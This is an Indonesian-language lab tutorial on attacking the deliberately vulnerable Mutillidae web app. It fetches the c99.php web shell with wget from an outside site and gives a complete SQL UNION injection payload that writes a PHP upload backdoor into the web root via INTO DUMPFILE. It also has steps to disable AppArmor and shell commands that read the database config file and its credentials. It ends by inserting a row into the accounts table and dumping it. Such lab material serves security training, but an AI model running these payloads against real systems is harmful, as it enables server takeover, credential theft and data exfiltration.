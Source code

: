 ## Lesson 11 - SQL Injection Union Exploit \#4

### \# Mendownload c99.php (PHP SQL Injection)

* **Step 1** : Download file, lakukan command berikut
```
mkdir -p /root/backdoor
cd /root/backdoor/
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
ls -lrta
```
![](/assets/lesson-11/lesson11_1.JPG)

* **Step 2** : Unrar file dan gabungkan menjadi script, lakukan command berikut
```
unrar x stuff.rar
cat part1.txt part2.txt part3.txt > c99.php
cp c99.php c99.php.bkp
ls -lrta
```
![](/assets/lesson-11/lesson11_2.JPG)

* **Step 3** : Ubah header file php yang awalnya `<?` menjadi `<?php` kemudian file dan gabungkan menjadi script, lakukan command berikut
```
sed -i '1 s/^.*$/<?php/g' c99.php
ls -lrta
```
![](/assets/lesson-11/lesson11_3.JPG)


### \# Upload c99.php (PHP SQL Injection)

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Membuat Backdoor dengan SQL Union Injection dengan memasukan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/mutillidae/upload_file.php' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **upload_file.php**
![](/assets/lesson-9/injection_result.JPG)

* **Step 5** : Melihat hasil operasi dengan web browser di `http://10.151.36.64/mutillidae/upload_file.php` 
![](/assets/lesson-11/lesson11_4.JPG)

* **Step 6** : Pilih file c99.php yang kita buat tadi di `/root/backdoor/c99.php`, kemudian pilih Submit
![](/assets/lesson-11/lesson11_5.JPG)


### \# Mengambil autentikasi database

* **Step 1** : Melihat hasil operasi dengan web browser di `http://10.151.36.64/mutillidae/c99.php` 
![](/assets/lesson-11/lesson11_6.JPG)

* **Step 2** : Mengetahui working directory, dengan exucute command `pwd`
![](/assets/lesson-11/lesson11_7.JPG)

* **Step 3** : Mencari file yang berisi konfigurasi database, dengan exucute command `find /var/www/mutillidae | xargs grep -i "dbuser"`
![](/assets/lesson-11/lesson11_8.JPG)

* **Step 4** : Membuka file yang berisi konfigurasi database, dengan exucute command `cat /var/www/mutillidae/config.inc`
![](/assets/lesson-11/lesson11_9.JPG)

Tercatat :
**host** : localhost atau 0.0.0.0
**user** : root
**password** : (kosong)
**nama database** : owasp10

### \# Mengakses database

* **Step 1** : Pilih tab **SQL** kemudian masukan autentikasi yang kita peroleh
![](/assets/lesson-11/lesson11_10.JPG)

* **Step 2** : Akan terlihat daftar tabel yang ada dalam database tersebut
![](/assets/lesson-11/lesson11_11.JPG)

* **Step 3** : Pilih tabel **accounts** kemudian pilih **insert** untuk memasukan data baru, lalu isi dengan data sesuka Anda
![](/assets/lesson-11/lesson11_12.JPG)

* **Step 4** : Kembali ke daftar akun di tabel **accounts**, terlihat akun kita masuk ke row terbaru
![](/assets/lesson-11/lesson11_13.JPG)

* **Step 5** : Pilih opsi **Dump** pada tabel **accounts**, sesuaikan paramater sesuai kebutuhan, kemudian pilih Dump.
![](/assets/lesson-11/lesson11_14.JPG)

* **Step 6** : File `.sql` yang tersimpan berisi sintaks SQL dari tabel **accounts** yang bisa kita gunakan
![](/assets/lesson-11/lesson11_15.JPG)







